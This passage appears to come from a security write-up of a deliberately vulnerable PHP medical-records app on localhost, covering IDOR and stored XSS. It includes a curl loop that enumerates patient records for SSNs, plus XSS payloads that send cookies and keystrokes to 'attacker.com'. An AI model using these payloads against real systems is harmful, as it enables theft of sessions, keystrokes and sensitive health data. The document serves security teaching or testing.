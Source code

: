 #### Exploitation:

Access any patient record without authorization:
```
http://localhost:8080/dashboard.php?patient_id=1
http://localhost:8080/dashboard.php?patient_id=2
http://localhost:8080/dashboard.php?patient_id=3
...
```

**Automated Enumeration**:
```bash
for i in {1..20}; do
  curl -s "http://localhost:8080/dashboard.php?patient_id=$i" -b "PHPSESSID=your_session" | grep "SSN"
done
```

---

### 4. Cross-Site Scripting (XSS)

**Location**: `dashboard.php` - Medical Notes field
**Severity**: HIGH

#### Vulnerable Code:
```php
echo $patient_data['medical_notes']; // No sanitization!
```

#### Exploitation:

**Stored XSS** (Patient ID 20):
```html
<script>alert('XSS Vulnerability')</script>
```

**Cookie Theft**:
```html
<script>
document.location='http://attacker.com/steal.php?cookie='+document.cookie;
</script>
```

**Keylogger**:
```html
<script>
document.onkeypress = function(e) {
  fetch('http://attacker.com/log?key=' + e.key);
}
</script>
```

---

### 5. Unrestricted File Upload
